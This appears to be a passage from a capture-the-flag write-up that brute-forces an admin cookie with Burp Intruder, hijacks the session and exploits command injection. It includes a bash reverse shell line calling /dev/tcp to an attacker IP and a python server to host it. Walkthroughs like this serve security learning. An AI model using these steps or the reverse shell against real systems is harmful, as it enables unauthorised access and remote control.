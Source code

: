 Send this request to burp `intruder` and choose **sniper** mode, also make sure to choose the point where `burp` will perform this action

![](https://i.imgur.com/THOGVmO.png)


Navigate to the `payloads` tab and click load, then select the password file, make sure to rename the password file from `.passwords_list.txt` to `Passwd.txt` so burp can see it


![](https://i.imgur.com/GIeLNc9.png)

Under **Payload Processing** make sure to assign the rules as follows -:

- Hash = `MD5`
- Prefix = `admin:`
- Encode = `Base64-encode`

![](https://i.imgur.com/rVXwh4Z.png)

Starting the attack and filtering by **length**, we can see that we are truly logged in as the admin user

![](https://i.imgur.com/nzIfoAU.png)


We can therefore copy the `PHPSESSID` value and change it with the test cookie on the website

![](https://i.imgur.com/r2Dxl51.png)

Reloading the web page we truly have the admin panel which seems to be vulnerable to `command injection`


![](https://i.imgur.com/ll4BnRd.png)

Truly it is vulnerable to **command injection** vulnerability

![](https://i.imgur.com/yKEnkuJ.png)

Since there are alot of detection in trying to gain a reverse shell, we can upload our own bash shell script and start it up, paste this into a file and save it as `.sh` extension

```bash
#!/bin/bash

/bin/sh -i >& /dev/tcp/10.9.75.133/1337 0>&1
```

![](https://i.imgur.com/HgE60kx.png)


Then start up your python server

```bash
$ python3 -m http.server 80
```
